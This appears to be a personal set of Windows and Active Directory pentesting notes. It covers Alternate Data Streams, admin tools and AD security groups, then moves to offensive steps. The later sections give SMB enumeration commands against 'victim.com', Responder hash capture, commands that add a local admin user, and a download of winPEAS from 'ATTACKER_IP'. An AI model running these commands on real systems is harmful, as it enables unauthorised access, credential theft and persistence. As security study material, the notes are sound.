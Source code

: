 # Notes windows

### Alternate Data Streams (ADS)

Alternate Data Streams (ADS) is a file attribute specific to Windows NTFS (New Technology File System).

Every file has at least one data stream (`$DATA`), and ADS allows files to contain more than one stream of data. Natively [Window Explorer](https://support.microsoft.com/en-us/windows/what-s-changed-in-file-explorer-ef370130-1cca-9dc5-e0df-2f7416fe1cb1) doesn't display ADS to the user. There are 3rd party executables that can be used to view this data, but [Powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1) gives you the ability to view ADS for files.

From a security perspective, malware writers have used ADS to hide data.

Not all its uses are malicious. For example, when you download a file from the Internet, there are identifiers written to ADS to identify that the file was downloaded from the Internet.

To learn more about ADS, refer to the following link from MalwareBytes [here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/).&#x20;

**Bonus**: If you wish to interact hands-on with ADS, I suggest exploring Day 21 of [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2).

### Stuff

**Local User and Group Management**. Right-click on the Start Menu and click **Run**. Type `lusrmgr.msc`

{% embed url="https://www.howtogeek.com/405806/windows-task-manager-the-complete-guide/" %}

The **System Configuration** utility (`MSConfig`)&#x20;

The **Computer Management** (`compmgmt.msc`)

the **System Information** (`msinfo32`) tool

&#x20;**Resource Monitor** (`resmon`)

&#x20;**Registry Editor** (`regedit`).

**Tip**: Another way to access Windows Update is from the Run dialog box, or CMD, by running the command `control /name Microsoft.WindowsUpdate`.

[https://msrc.microsoft.com/update-guide](https://msrc.microsoft.com/update-guide) (cve and stuff)

_BitLocker Drive Encryption is a data protection feature that integrates with the operating system and addresses the threats of data theft or exposure from lost, stolen, or inappropriately decommissioned computers_

_BitLocker provides the most protection when used with a Trusted Platform Module (TPM) version 1.2 or later. The TPM is a hardware component installed in many newer computers by the computer manufacturers. It works with BitLocker to help protect user data and to ensure that a computer has not been tampered with while the system was offline_

Volume Shadow Copy Service (VSS) coordinates the required actions to create a consistent shadow copy (also known as a snapshot or a point-in-time copy) of the data that is to be backed up.

{% embed url="https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal" %}

{% embed url="https://support.microsoft.com/en-us/windows/learn-about-windows-hello-and-set-it-up-dae28983-8242-bb2a-d3d1-87c9d265a5f0" %}

_A_ttackers use built-in Windows tools and utilities in an attempt to go undetected within the victim environment.  This tactic is known as Living Off The Land. Refer to the following resource [here](https://lolbas-project.github.io/) to learn more about this. \
\


### Active Directory

The server that runs the Active Directory services is known as a **Domain Controller (DC)**.

**Active Directory Domain Service (AD DS)**. This service acts as a catalogue that holds the information of all of the "objects" that exist on your network. -  users, groups, machines, printers, shares and many others.&#x20;

_**Users**_

Users are one of the objects known as **security principals**, meaning that they can be authenticated by the domain and can be assigned privileges over **resources** like files or printers. You could say that a security principal is an object that can act upon resources in the network.

Users can be used to represent two types of entities:

* **People**
* **Services :** you can also define users to be used by services like IIS or MSSQL. Every single service requires a user to run, but service users are different from regular users as they will only have the privileges needed to run their specific service.

_**Machines**_

Machines are another type of object within Active Directory; for every computer that joins the Active Directory domain, a machine object will be created. Machines are also considered "security principals" and are assigned an account just as any regular user. This account has somewhat limited rights within the domain itself.

The machine accounts themselves are local administrators on the assigned computer, they are generally not supposed to be accessed by anyone except the computer itself, but as with any other account, if you have the password, you can use it to log in.

**Note:** Machine Account passwords are automatically rotated out and are generally comprised of 120 random characters.

Identifying machine accounts is relatively easy. They follow a specific naming scheme. The machine account name is the computer's name followed by a dollar sign. For example, a machine named `DC01` will have a machine account called `DC01$`.

_**Security Groups**_

Security groups are also considered security principals and, therefore, can have privileges over resources on the network.

Groups can have both users and machines as members. If needed, groups can include other groups as well.

Several groups are created by default in a domain that can be used to grant specific privileges to users. As an example, here are some of the most important groups in a domain:

| **Security Group** | **Description**                                                                                                                                           |
| ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Domain Admins      | Users of this group have administrative privileges over the entire domain. By default, they can administer any computer on the domain, including the DCs. |
| Server Operators   | Users in this group can administer Domain Controllers. They cannot change any administrative group memberships.                                           |
| Backup Operators   | Users in this group are allowed to access any file, ignoring their permissions. They are used to perform backups of data on computers.                    |
| Account Operators  | Users in this group can create or modify other accounts in the domain.                                                                                    |
| Domain Users       | Includes all existing user accounts in the domain.                                                                                                        |
| Domain Computers   | Includes all existing computers in the domain.                                                                                                            |
| Domain Controllers | Includes all existing DCs on the domain.                                                                                                                  |

You can obtain the complete list of default security groups from the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups).

#### Powershell commands

```powershell
Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
```

## Enumeration

### Samba

<pre class="language-bash"><code class="lang-bash"><strong># Enumerate shares
</strong><strong>crackmapexec smb victim.com -u USERNAME -p 'password#1234' --shares
</strong><strong># Get password policy
</strong>crackmapexec smb victim.com -u USERNAME -p 'password#1234' --pass-pol

smbmap -u 'USERNAME' -p 'password#1234'  -H victim.com  -r

smbclient -U USERNAME  //victim.com/Shared

crackmapexec winrm victim.com  -u USERNAME -p 'password'</code></pre>

### Networking

#### Responder

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

```bash
sudo responder -I tun0
```

\--> Get NTLMv2 Hash to crack it afterwards

## Post Exploitation

#### system

<pre class="language-powershell"><code class="lang-powershell"><strong># all groups the user is part of and special privilege
</strong>whoami /all
# Reset password
net user USERNAME PASSWORD
# Create admin user
net user USERNAME PASSWORD /add;net localgroup Administrators USERNAME /add
# List of AD members
Get-ADGroupMember -Identity 'Account Operators' -Recursive | select name
</code></pre>

#### privilege escalation

```powershell
invoke-webrequest -Uri 'http://ATTACKER_IP:8000/winPEAS.bat' -OutFile winpeas.bat
```

#### psexec

{% embed url="https://www.sans.org/blog/psexec-python-rocks/" %}

